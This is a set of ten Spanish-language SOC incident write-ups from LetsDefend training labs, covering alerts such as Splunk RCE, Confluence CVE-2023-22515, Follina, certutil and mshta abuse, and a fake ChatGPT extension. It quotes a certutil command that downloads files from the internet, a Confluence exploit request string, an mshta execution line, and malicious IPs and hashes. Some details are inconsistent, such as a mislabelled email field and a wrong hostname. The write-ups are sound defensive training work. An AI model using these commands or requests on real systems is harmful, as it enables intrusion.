# Atención y Seguimiento de Incidentes Usando Let's Defend

## Incidente 1 SOC239: Remote Code Execution Detected in Splunk Enterprise

### Descripción del Incidente

La alerta SOC239 se refiere a la detección de una Ejecución Remota de Código (RCE) en Splunk Enterprise debido a la vulnerabilidad CVE-2023–46214. Esta vulnerabilidad afecta a versiones de Splunk Enterprise anteriores a 9.0.7 y 9.1.2, que no sanitizan de manera segura las transformaciones de lenguaje de hoja de estilo extensible (XSLT) suministradas por el usuario.

### Detección

#### Playbook:

1. **Recolección de Datos:**
   
   - Dirección IP Fuente: 180.101.88.240
   - Dirección IP Destino: 172.16.20.13
   - Puerto Fuente: 54321
   - Puerto Destino: 8000
   - Hostname: Splunk Enterprise

2. **Comprobar IP externa**
   - Se ha analizado la IP fuente 180.101.88.240, se ha identificado como maliciosa.



   - Se encontro la subida del archivo shell

3. **Determinar tipo de ataque**
   - Tras analizar el archivo ``shell.xls`` se ha determinado que es una inyección XML que no estaba planeada.

4. **Determina el éxito del ataque**
   - Al descubrir que el ataque fue exitoso, se necesita una escalada de nivel 2

### Análisis

Después de recopilar los datos y examinar los artefactos, se observa lo siguiente:

- La dirección IP fuente (180.101.88.240) se identificó como maliciosa según Virustotal y AbuseIPDB.
- La dirección IP destino (172.16.20.13) pertenece a la red interna de la empresa.
- Se encontró un archivo "shell.zip" sospechoso, que al descomprimir reveló un archivo ".xsl" y un archivo de script ".sh".
- El archivo ".xsl" contiene código que parece ser un intento de ataque de inyección de entidad externa XML (XXE).
- Se determinó que el ataque fue exitoso, ya que la acción del dispositivo estaba permitida.

### Contención

Para contener el incidente, se aísla el dispositivo relevante para restringir al atacante.

### Acciones Destacadas y Lecciones Aprendidas

- Se identificó la necesidad de una escalación a Tier 2 para un análisis más exhaustivo del incidente.
- Se aprendió la importancia de monitorear y analizar el tráfico de red en busca de actividades maliciosas.
- La respuesta rápida y la contención efectiva son críticas para limitar el impacto de los ataques.

### Mejoras y Estrategias Preventivas

- Se propone implementar medidas de seguridad adicionales, como la actualización regular de software para mitigar vulnerabilidades conocidas.
- Se sugiere mejorar la detección temprana de actividades maliciosas mediante el fortalecimiento de los sistemas de monitoreo y alerta.

_________________

## Incidente 2 SOC176: Detección de Ataque de Fuerza Bruta RDP

### Descripción del Incidente

El alerta SOC176 se refiere a la detección de un ataque de fuerza bruta contra el servicio RDP (Remote Desktop Protocol). Se investigará este incidente para determinar su alcance y tomar medidas correspondientes.

### Detección

#### Playbook:

1. **Recolección de Datos:**
   - Dirección IP Fuente: 218.92.0.56
   - Dirección IP Destino: 172.16.17.148
   - Hostname: Matthew
   - Protocolo: RDP

2. **Comprobar IP externa**
   - Comprobamos la reputación en virus total.

3. **Análisis de trafico**
   - Se encuentran solicitudes al puerto 3389 del RDP.

4. **Determinar el Alcance**
   - El atacante no ha sido a múltiples clientes/servidores porque si miramos los registros, veremos que todos los registros de la IP del atacante van solo al host de Matthew.

5. **¿Fue exitoso el ataque de fuerza bruta?**
   - Miramos los registros y vemos que el ataque fue exitoso.



### Análisis

Se consultaron fuentes como VirusTotal, AbuseIPDB y Letsdefend TI, confirmando que la IP de origen es maliciosa. Los registros asociados muestran un ataque de fuerza bruta contra el servicio RDP del host Matthew.

### Contención

Dado que el ataque fue exitoso, se procede a aislar el host Matthew para limitar el acceso del atacante.



### Acciones Destacadas y Lecciones Aprendidas

1. **Acciones Destacadas:**
   - Se identificó la necesidad de una contención rápida para limitar el acceso del atacante.
   - Se recopilaron registros para análisis posterior y evidencia forense.

2. **Lecciones Aprendidas:**
   - Este ataque exitoso de fuerza bruta resalta la importancia de utilizar contraseñas suficientemente complejas.
   - Se reconoce la necesidad de políticas de contraseña más estrictas y educación sobre seguridad de contraseñas para los usuarios.

### Mejoras y Estrategias Preventivas

Se sugiere implementar políticas de contraseña más estrictas y educar a los usuarios sobre la importancia de la seguridad de las contraseñas.

_________________

## Incidente 3 SOC251: Quishing Detected (QR Code Phishing)

### Descripción del Incidente

La alerta SOC251 se refiere a la detección de un ataque de quishing, también conocido como phishing a través de código QR. Este tipo de ataque de ingeniería social engaña al destinatario para que escanee un código QR, redirigiéndolo a un sitio web falso. Estos códigos, generalmente incrustados en correos electrónicos, eluden los controles de seguridad y la mayoría de los filtros de enlaces, lo que los hace mucho más peligrosos que la mayoría de las otras formas de phishing.

### Detección

#### Playbook:

1. **Recolección de Datos:**
   - Dirección SMTP: 158.69.201.47
   - Dirección IP Fuente: security@microsecmfa.com
   - Dirección IP Destino: claire@letsdefend.io

2. **Comprobamos servidor SMTP**
   - Introducimos la ip en virus total, la dirección es maliciosa.



3. **Investigación Correos**
   - Comprobamos si se han mandado más correos con esa dirección, es el único.

   - Comprobamos el contenido del correo



   - Introducimos el QR en CyberChef para ver contenido.



   - Comprobamos el enlace en Virus Total y confirmamos que es malicioso.



4. Una vez analizado borramos el correo

5. Comprobamos los logs del equipo.
   - No se han encontrado logs ni del equipo ni de la ip atacante.

### Análisis

1. **Consultar Registros:**
   - Se verifica la actividad en la página de Gestión de Logs, confirmando que la acción del dispositivo se marcó como "permitida", indicando un posible éxito del ataque de phishing.

2. **Revisar Recursos Adicionales:**
   - Se examinan los registros del Servidor de Intercambio (Exchange Server) y la Seguridad de Correo Electrónico para obtener más detalles sobre el evento.

### Contención

Dado que no sabemos si el ataque de phishing ha sido exitoso, se procede a aislar el equipo de Claire.

### Acciones Destacadas y Lecciones Aprendidas

1. **Acciones Destacadas:**
   - Se confirma la necesidad de una respuesta rápida para contener el incidente y limitar su impacto.
   - Se identifica un correo electrónico malicioso que contenía un código QR de phishing, destacando la importancia de la educación sobre seguridad en correos electrónicos.

2. **Lecciones Aprendidas:**
   - Se destaca la importancia de verificar la legitimidad de los códigos QR antes de escanearlos, verificando la URL de destino y la credibilidad de la fuente.

### Mejoras y Estrategias Preventivas

Se sugiere reforzar la educación y concienciación sobre la seguridad en correos electrónicos, así como implementar medidas de seguridad adicionales para detectar y prevenir ataques de quishing en el futuro.

_________________

## Incidente 4 SOC250: Detección de Herramienta de Exfiltración de Datos HyperScrape de APT35

### Descripción del Incidente

El alerta SOC250 se refiere a la detección de la herramienta de exfiltración de datos HyperScrape utilizada por el grupo APT35, también conocido como Charming Kitten, respaldado por el gobierno iraní. Esta herramienta se utiliza para robar datos de usuarios de cuentas de Gmail, Yahoo! y Microsoft Outlook.

### Detección

#### Playbook:

1. **Recolección de Datos:**
Se nos proporciona la siguiente información:

   - Dirección IP: 172.16.17.72
   - Hostname: Arthur
   - Nombre del Proceso: EmailDownloader.exe
   - Process Path: C:\Users\LetsDefend\Downloads\EmailDownloader.exe
   - Parent Process: C:\Windows\Explorer.EXE
   - Command Line: C:\Users\LetsDefend\Downloads\EmailDownloader.exe

Se procede a verificar la página de Gestión de Logs para buscar registros relacionados con la alerta.

2. **Determinar técnica de ataque**
   - Se ha detectado una recogida de datos de manera externa de la víctima mediante EmailDownloader.exe. 



3. **Comprobar reputación**
   - Se ha analizado la IP de destino 136.243.108.14, se ha identificado como maliciosa.



4. **Comprobar alcance**
   - No se han encontrado más acciones del atacante, no ha sido infetado ningún equipo más.

### Análisis

#### Consulta de Registros:

Se observan registros relacionados con la dirección IP del host Arthur en la página de Gestión de Logs.

Investigamos el End Point para obtener más información sobre el incidente, encontramos el .exe en los procesos.



No se ha encontrado ningún correo

### Contención

Dado que el ataque fue exitoso y solo el host Arthur se vio afectado, se procede a aislar el dispositivo para evitar una mayor propagación del ataque.

### Acciones Destacadas y Lecciones Aprendidas

1. **Acciones Destacadas:**
   - Se confirma la necesidad de una respuesta rápida para contener el incidente y limitar su impacto en otros sistemas.
   - Se identifica la herramienta HyperScrape utilizada por APT35 como responsable del robo de datos de usuarios de cuentas de correo electrónico.

2. **Lecciones Aprendidas:**
   - Se subraya la importancia de implementar medidas de seguridad adicionales para detectar y prevenir ataques de grupos respaldados por gobiernos, como APT35.

### Mejoras y Estrategias Preventivas

Se sugiere reforzar la seguridad de las cuentas de correo electrónico y la monitorización de tráfico de red para detectar y bloquear actividades maliciosas de herramientas como HyperScrape.

_________________

## Incidente 5 SOC235: Atlassian Confluence Broken Access Control 0-Day CVE-2023-22515

### Descripción del Incidente

La alerta SOC235 se refiere a la detección de una vulnerabilidad de control de acceso roto en Atlassian Confluence, identificada como CVE-2023–22515. Esta vulnerabilidad afecta a ciertas versiones de Atlassian Confluence Data Center y Server, permitiendo que actores maliciosos obtengan acceso inicial a instancias de Confluence creando usuarios no autorizados. La vulnerabilidad se clasifica como un problema de Control de Acceso Roto.

### Detección

#### Playbook:

1. **Recolección de Datos:**

   - Dirección IP Fuente: 43.130.1.222
   - Dirección IP Destino: 172.16.17.234
   - Hostname: Confluence Data Center v8.0.3
   - URL Solicitada: /server-info.action bootstrapStatusProvider.applicationConfig.setupComplete=false

2. **Comprobar IP externa**
   - Investigamos en Virustotal



   - Comprobamos su actividad en los logs y en Threat Intelligence

3. **Determinar tipo de ataque**
   - Elegimos “Otro”, porque el tipo de ataque que estamos investigando no pertenece a ninguno de los anteriores. Hemos determinado que el ataque se llevó acabo desde Internet a la compañía.

4. **¿Fué exitoso?**
   - El ataque fue exitoso porque vimos que el código de respuesta en la pestaña Administración de registros es 200 OK.

### Análisis

#### Consulta de Registros:

Se revisan los registros en la página de Gestión de Logs y se observa que la respuesta del servidor fue "200 OK", indicando una interacción exitosa.

#### Recursos de Inteligencia:

Se consultan recursos como Virustotal y Threat intel para obtener más información sobre la dirección IP de origen.

### Contención

Dado que el ataque fue exitoso y solo el dispositivo interno de Confluence se vio afectado, se procede a aislar el dispositivo para evitar una mayor exposición al riesgo.

### Acciones Destacadas y Lecciones Aprendidas

1. **Acciones Destacadas:**
   - Se confirma la necesidad de una respuesta rápida para contener el incidente y limitar su impacto en otros sistemas.
   - Se identifica la necesidad de una escalada a Tier 2 para una mayor investigación y análisis por parte de un analista más experimentado.

2. **Lecciones Aprendidas:**
   - Se subraya la importancia de implementar medidas de seguridad adicionales para proteger los sistemas contra vulnerabilidades de control de acceso.

_________________

## Incidente 6 SOC227: Elevación de Privilegios en Microsoft SharePoint Server - Posible Explotación de CVE-2023–29357

### Descripción del Incidente

El alerta SOC227 involucra una vulnerabilidad crítica de elevación de privilegios en Microsoft SharePoint Server, identificada como CVE-2023–29357. Esta vulnerabilidad, con un puntaje CVSS de 9.8 (Crítico), podría permitir, en combinación con otras vulnerabilidades, la ejecución remota de código.

### Detección

#### Playbook:

1. **Recolección de Datos:**
   - Dirección IP Fuente: 39.91.166.222
   - Dirección IP Destino: 172.16.17.233
   - Hostname: MS-SharePointServer
   - URL Solicitada: /_api/web/siteusers

2. **Comprobar reputación**
   - Se ha analizado la IP fuente 39.91.166.222, se ha identificado como maliciosa.





3. **Comprobar si es planeado**
   - Busqué datos asociados de la alerta en el correo electrónico, como la IP de origen, la IP de destino o el nombre del servidor, pero no parece haber nada conectado, por lo que esto no estaba planeado.

4. **¿Fué exitoso?**
   - El ataque fue exitoso, se descubrió que el atacante accedió a las URL /currentuser y /siteusers del sitio.





### Análisis

Después de investigar la dirección IP fuente (39.91.166.222) en AbuseIPDB y VirusTotal, se confirmó que esta dirección es maliciosa y pertenece a China Unicom. Además, se revisaron los registros en el sistema de gestión de logs y se encontró tráfico malicioso relacionado.

### Contención

Dado que el ataque fue exitoso y se accedió a URLs sensibles como /currentuser y /siteusers, se procedió a aislar el servidor SharePoint relevante para restringir al atacante y evitar más daños.

### Acciones Destacadas y Lecciones Aprendidas

- La rápida identificación y contención del dispositivo afectado fueron cruciales para mitigar el impacto del ataque.
- Se identificó la necesidad de una escalada a Tier 2 para una análisis más detallado por un analista más experimentado, dado el éxito del ataque y la gravedad de la vulnerabilidad.

### Mejoras y Estrategias Preventivas

- Se recomienda actualizar todas las instancias de Microsoft SharePoint Server afectadas a la última versión para mitigar esta vulnerabilidad.
- Implementar una vigilancia más estricta de los accesos a URLs críticas dentro de los servidores para detectar y responder a actividades sospechosas más rápidamente.

_________________

## Incidente 7 SOC163: Uso Sospechoso de Certutil.exe

### Descripción del Incidente

El alerta SOC163 se refiere al uso sospechoso de `certutil.exe` en un entorno Windows, detectado como EventID 113. Este comando específico es conocido por su capacidad para gestionar certificados y configuraciones relacionadas en Windows, pero también puede ser usado para descargar archivos de internet, lo cual puede ser explotado por atacantes para introducir malware o herramientas de hacking en el sistema.

### Detección

#### Playbook:

1. **Recolección de Datos:**

   - Dirección IP : 172.16.17.22
   - Hostname: EricProd
   - Binary Path : C:/Windows/System32/certutil.exe
   - Comando: ``certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip``

- **Certutil.exe**: Herramienta de línea de comandos en Windows usada para gestionar certificados.
- **URLcache**: Utilizado para mostrar o eliminar las entradas de caché de URL.
- **-f**: Parámetro que fuerza la descarga de la URL especificada y actualiza la caché.

2. **Determinar actividad sospechosa**
   - Usando el panel de administración de registros, se confirmó que el host 172.16.17.22 haya accedido a las URL sospechosas. Se ha detectado actividad sospechosa en el equipo de EricProd.

3. **Determinar tipo de ataque**
   - El atacante utilizó Certutil para descargar dos archivos de Internet.

### Análisis

El uso del comando `certutil.exe` con parámetros para descargar archivos directamente desde una URL es una táctica comúnmente explotada por atacantes. En este caso, se descargaron dos archivos:
1. `nmap.zip` desde `https://nmap.org/dist/nmap-7.92-win32.zip`
2. `windows-exploit-suggester.py` desde `https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py`

La revisión del historial de comandos en la máquina del usuario mostró actividad sospechosa relacionada con la enumeración de vulnerabilidades y exploración de la red interna.

### Contención

La máquina del usuario, identificada por el hostname `EricProd`, fue contenida para prevenir la propagación de un incidente de seguridad o una violación más extensa a través de la red o el sistema.

### Acciones Destacadas y Lecciones Aprendidas

- **Contención Rápida**: La acción de contener rápidamente el host fue crucial para evitar que el incidente de seguridad se propagara.
- **Uso de LOLBins**: El incidente subrayó la importancia de monitorear el uso de los Binarios Legítimos de Windows utilizados para propósitos maliciosos (LOLBins), como `certutil.exe`.

### Mejoras y Estrategias Preventivas

- **Monitoreo Mejorado**: Reforzar el monitoreo de comandos y operaciones sospechosas realizadas a través de utilidades del sistema como `certutil.exe`.
- **Educación sobre LOLBins**: Implementar programas de formación para el personal de seguridad sobre el reconocimiento y respuesta ante el uso malicioso de herramientas del sistema operativo.

_________________

## Incidente 8 SOC164: Comportamiento Sospechoso de Mshta.exe

### Descripción del Incidente

El alerta SOC164 fue generado por un comportamiento sospechoso asociado al uso de `mshta.exe`, una herramienta legítima de Windows conocida por ser usada en ataques "living off the land" (LOLbin). El evento se identificó debido a la ejecución de un archivo HTA de baja reputación a través de `mshta.exe`.

### Detección

#### Playbook:

1. **Recolección de Datos:**

   - Hostname: Roberto
   - **Dirección IP: 172.16.17.38
   - Ruta Binaria: C:/Windows/System32/mshta.exe
   - Línea de Comando: C:/Windows/System32/mshta.exe C:/Users/Roberto/Desktop/Ps1.hta
   - MD5 of Ps1.hta : 6685c433705f558c5535789234db0e5a

2. **Determinar actividad sospechosa**
   - Se ha detectado una actividad inusual en la terminal de Roberto, el script intentaba ejecutar un comando malicioso desde Internet.





### Análisis

Durante el análisis, se observó que desde la dirección IP 172.16.17.38 se intentó conectar al servidor en 193.142.58.23 para acceder a `Server.txt`, obteniendo una respuesta HTTP 404. Este servidor ha sido reportado múltiples veces por actividades maliciosas.

El archivo `Ps1.hta`, identificado por el hash `6685c433705f558c5535789234db0e5a`, no arrojó resultados en VirusTotal, pero sí se identificó como `Ps1.txt`, lo cual es indicativo de una actividad maliciosa relacionada con el script PowerShell ejecutado.

### Contención y Respuesta

- **Host Contenido**: La máquina del usuario "Roberto" fue contenida para prevenir la propagación de la actividad maliciosa y evitar futuros incidentes.
- **Revisión del Comando**: Se confirmó que `mshta.exe` fue usado para ejecutar el script PowerShell `Ps1.hta`, intentando acceder al recurso malicioso en `193.142.58.23/Server.txt`.

### Acciones Destacadas y Lecciones Aprendidas

- **Uso de LOLBin**: Este incidente subraya la importancia de monitorizar el uso de binarios legítimos de Windows que pueden ser utilizados para ejecutar acciones maliciosas.
- **Verificación de Comportamiento**: La rápida identificación y contención de la actividad sospechosa fueron cruciales para mitigar el impacto potencial del incidente.

### Mejoras y Estrategias Preventivas

- **Mejor Análisis de Comportamiento**: Implementar herramientas avanzadas de análisis de comportamiento para detectar y responder rápidamente al uso indebido de herramientas del sistema operativo.
- **Educación Continuada**: Capacitar a los analistas de seguridad en la detección y respuesta a ataques que utilizan técnicas de "living off the land".

_________________

## Incidente 9 SOC173: Detección de Follina 0-Day en Microsoft Office

### Descripción del Incidente

Se detectó una vulnerabilidad crítica, denominada Follina 0-Day, en un archivo DOCX que afecta a Microsoft Office. Esta vulnerabilidad permite la ejecución de código arbitrario a través de un archivo malicioso que explota el CVE conocido.

### Detección

#### Playbook:

1. **Recolección de Datos:**

   - Dirección IP: 172.16.17.39
   - Hostname : JonasPRD
   - File Name : 05-2022-0438.doc
   - File Hash : 52945af1def85b171870b31fa4782e52

2. **Determinar actividad sospechosa**
   - En los detalles de la alerta se nos adjunta el hash el fichero. Lo cargamos en VirusTotal para comprobar si es malicioso.



   - Se encontraron comandos sospechosos en el equipo infectado

3. **Comprobar si el malware está en cuarentena/limpiado**
   - Encontramos accesos desde la ip del equipo a un dominio malicioso y encontramos actividad en el equipo.

### Análisis del Incidente

1. **Verificación en Plataformas de Seguridad**:
   - **VirusTotal**: Confirmación de la actividad maliciosa y la explotación del CVE asociado al archivo DOCX.
   - **FileScanIO**: Confirmación adicional de la explotación del CVE.
   
2. **Revisión de Proceso en el Sistema Afectado**:
   - Se revisó el historial de procesos, encontrando la ejecución sospechosa de `msdt.exe`, una herramienta de diagnóstico de Microsoft, que ejecutaba un código en Base64.
   - La decodificación del código Base64 mostró comandos maliciosos ejecutados que validaron la actividad maliciosa del proceso `cmd.exe`.

### Contención y Respuesta

- **Aislamiento del Host**: La máquina afectada, identificada como el host "Roberto", fue aislada utilizando herramientas de seguridad de endpoint.
- **Análisis en Entorno Controlado**: Se abrió el archivo en una plataforma de virtualización para analizar su comportamiento sin comprometer la seguridad del sistema host. El archivo fue confirmado como "Malicioso".

### Acciones Destacadas y Lecciones Aprendidas

- **Respuesta Rápida**: La rápida identificación y contención del archivo malicioso fueron esenciales para prevenir una mayor explotación de la vulnerabilidad.
- **Uso de Herramientas de Diagnóstico**: La utilización de herramientas como `msdt.exe` en el contexto de un ataque resalta la importancia de monitorear y controlar el uso de herramientas del sistema que pueden ser abusadas por atacantes.

### Mejoras y Estrategias Preventivas

- **Actualización y Parcheo de Software**: Se destaca la importancia de mantener el software actualizado, especialmente en aplicaciones críticas como Microsoft Office que son comúnmente objetivo de ataques.
- **Fortalecimiento de la Seguridad de Endpoint**: Implementar políticas más estrictas para la ejecución de procesos y aplicaciones, particularmente aquellos que puedan ser utilizados para explotar vulnerabilidades.

_________________

## Incidente 10 

### Descripción del Incidente

La alerta SOC202 se refiere a la detección de una extensión maliciosa de Chrome, denominada FakeGPT, que imita a aplicaciones populares como ChatGPT. Este incidente subraya la importancia de verificar la autenticidad de las extensiones, incluso cuando parecen ser de confianza.

### Detección

#### Playbook:

1. **Recolección de Datos:**
   
   - Dirección IP: 172.16.17.173
   - Hostname: Samuel
   - File Path: C:\Users\LetsDefend\Download\hacfaophiklaeolhnmckojjjjbnappen.crx
   - File Hash: 7421f9abe5e618a0d517861f4709df53292a5f137053a227bfb4eb8e152a4669
   - Command Line: chrome.exe --single-argument C:\Users\LetsDefend\Download\hacfaophiklaeolhnmckojjjjbnappen.crx

2. **Comprobar actividad**
   - Buscamos actividad en los logs.



   - Encontramos actividad inusual en el historial.

3. **Determinar tipo de ataque**
   - Se descargó en el equipo ``chrome.exe``, esto podría ser un malware.

4. **Analizar malware**
   - Tenemos el hash en la alerta, lo buscamos en Virustotal.



5. **Comprobar si hubo C2**
   


### Investigación

#### Búsqueda de Evidencias:

- **Gestión de Registros:** Intentos iniciales por encontrar logs relevantes no dieron resultados.
- **Indicadores de Amenaza:** Se seleccionó la primera opción en el indicador de amenaza para profundizar en la investigación.
- **Seguridad de Endpoint:** Se revisaron los sistemas de seguridad de endpoint para verificar si el malware había sido puesto en cuarentena o limpiado, pero no se encontraron evidencias de que esto hubiera ocurrido.

#### Análisis de Malware:

- **Archivo Malicioso:** `chrome.exe — single-argument C:\Users\LetsDefend\Download\hacfaophiklaeolhnmckojjjjbnappen.crx`
- **Hash del Malware:** Se utilizó el hash provisto en la alerta para buscarlo en plataformas como VirusTotal.
  - No se detectó como malicioso inicialmente, pero la pestaña Comunidad indicó que se trataba de una extensión falsa de ChatGPT.

### Análisis de Comandos y Acceso C2:

- **Gestión de Logs:** A través del pivote en la gestión de logs, se encontró que se había accedido a un comando C2, confirmando la actividad maliciosa.

### Contención y Respuesta

- Dado que se confirmó la actividad maliciosa, se tomaron medidas para eliminar la extensión del navegador y reforzar las políticas de seguridad para evitar incidentes similares.

### Acciones Destacadas y Lecciones Aprendidas

- **Respuesta Rápida:** La pronta respuesta y la investigación detallada fueron cruciales para identificar y mitigar el riesgo asociado con la extensión maliciosa.
- **Educación de Usuarios:** Este incidente destaca la necesidad de educar a los usuarios sobre la importancia de verificar las extensiones antes de instalarlas, especialmente aquellas que se presentan como herramientas conocidas y confiables.

### Mejoras y Estrategias Preventivas

- **Verificación de Extensiones:** Implementar un proceso de revisión y aprobación más estricto para todas las nuevas extensiones de navegador solicitadas por los usuarios.
- **Fortalecimiento de la Seguridad de Endpoint:** Mejorar las herramientas de seguridad de endpoint para detectar y responder automáticamente a amenazas desconocidas o modificaciones no autorizadas en el navegador.
